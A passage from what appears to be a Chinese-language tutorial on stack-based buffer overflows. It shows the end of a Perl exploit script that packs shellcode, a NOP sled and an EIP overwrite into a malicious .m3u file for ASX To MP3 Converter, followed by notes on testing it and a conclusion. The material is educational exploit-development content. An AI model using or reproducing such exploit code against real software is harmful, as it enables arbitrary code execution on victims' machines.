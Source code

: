     “\x88\xe8\xe7\x39\xf4\xa3\x8c\x8a\x8e\x32\x45\xc3\x6f\x05” .
    “\xa9\x88\x51\xaa\x24\xd0\x96\x0c\xd7\xa7\xec\x6f\x6a\xb0” .
    “\x36\x12\xb0\x35\xab\xb4\x33\xed\x0f\x45\x97\x68\xdb\x49” .
    “\x5c\xfe\x83\x4d\x63\xd3\xbf\x69\xe8\xd2\x6f\xf8\xaa\xf0” .
    “\xab\xa1\x69\x98\xea\x0f\xdf\xa5\xed\xf7\x80\x03\x65\x15” .
    “\xd4\x32\x24\x73\x2b\xb6\x52\x3a\x2b\xc8\x5c\x6c\x44\xf9” .
    “\xd7\xe3\x13\x06\x32\x40\xeb\x4c\x1f\xe0\x64\x09\xf5\xb1” .
    “\xe8\xaa\x23\xf5\x14\x29\xc6\x85\xe2\x31\xa3\x80\xaf\xf5” .
    “\x5f\xf8\xa0\x93\x5f\xaf\xc1\xb1\x03\x2e\x52\x59\xea\xd5” .
    “\xd2\xf8\xf2”;
    
    my $sploit = $junk.$eip.$nops.$shell; # sploit portion of buffer
    my $fill = “\x43” x ($buffsize – (length($sploit))); # filler for consistency
    my $buffer = $sploit.$fill; # build final buffer
    
    # write the exploit buffer to file
    my $file = “asx2mp3.m3u”;
    open(FILE, “>$file”);
    print FILE $buffer;
    close(FILE);
    print “Exploit file created [” . $file . “]\n”;
    print “Buffer size: ” . length($buffer) . “\n”;

生成最终的.m3u文件并用ASX To MP3 Converter打开它，你应该看到：

![](../Images/WED/2.40.png)

如果calc没有打开，请确保您正在运行C：\的根目录下的.m3u文件，并且已将该文件命名为asx2mp3.m3u。请记住，由于文件路径影响成功执行以及使用实现地址重定位的应用程序模块（DLL），因此此漏洞远未完善。我们将在第3部分中看看如何解决这两个问题。

## 结论

这就是这个系列的第2部分。希望您现在了解基于堆栈的缓冲区溢出的基本知识，包括为什么它是一个问题，它如何在软件应用程序中表现出来，以及如何利用它来强制执行任意代码。

在第3部分中，我将继续讨论基于栈的溢出问题，以及如何解决基本问题，如动态EIP偏移和稍微更复杂的跳转到shellcode。我将再次开始使用ASX-MP3应用程序，并展示一种方法，我们可以克服由于在内存中包含文件路径而导致的EIP偏移量的变化。





